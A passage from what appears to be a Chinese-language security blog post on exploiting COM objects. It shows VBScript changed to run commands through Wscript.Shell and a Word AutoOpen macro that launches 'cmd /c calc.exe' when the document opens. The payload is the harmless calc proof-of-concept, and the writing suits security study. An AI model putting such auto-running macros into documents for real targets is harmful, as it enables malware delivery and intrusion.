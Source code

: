 替换前：

```vbscript
' Execute cmd
Set Object = CreateObject("Shell.Application")
Object.ShellExecute "cmd"
```

替换后：

```vbscript
' Execute cmd
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
```

最终实现效果：

![改造EXP](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/改造EXP.png)

接下来讲述COM对象在Office宏中的利用，以Office2019为例，在word文档中创建如下宏代码：

```vbscript
Sub AutoOpen()
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
End Sub
```

打开文件后，会提示宏已被禁用：
